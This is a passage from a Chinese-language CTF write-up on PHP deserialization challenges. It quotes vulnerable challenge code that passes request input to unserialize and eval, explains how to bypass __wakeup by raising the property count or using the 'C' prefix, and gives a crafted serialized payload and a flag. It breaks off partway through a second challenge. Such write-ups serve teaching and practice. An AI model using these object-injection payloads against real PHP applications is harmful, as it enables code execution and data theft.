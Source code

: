 ```
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}

```
代码审计发现destruct方法下有可以得到flag的条件，给x传参fllllllag.php即可，但是wakeup方法会改变x参数的值，所以要绕过wakeup
:::tips
(1)当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。
标准序列化结果
O:4:"User":2:{s:8:"username";s:4:"wenda";s:8:"password";s:4:"wenda";}
将2改为3 绕过__Wakeup魔法函数
O:4:"User":3:{s:8:"username";s:4:"wenda";s:8:"password";s:4:"wenda";}
(2)使用C绕过
使用C代替O能绕过_wakeup(),但那样的话只能执行construct()函数或者destruct()函数，无法添加任何内容
注意：使用C绕过有版本要求
:::
```
 <?php
class X
{
    public $x = "fllllllag.php";
}
$a=new X;
echo serialize($a);

O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}
↓
?x=O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}

 <?php $flag="NSSCTF{32b620d4-7623-400b-b17b-2285541c7f45}";
```
4.[UUCTF 2022 新生赛]ez_unser
```
 <?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
```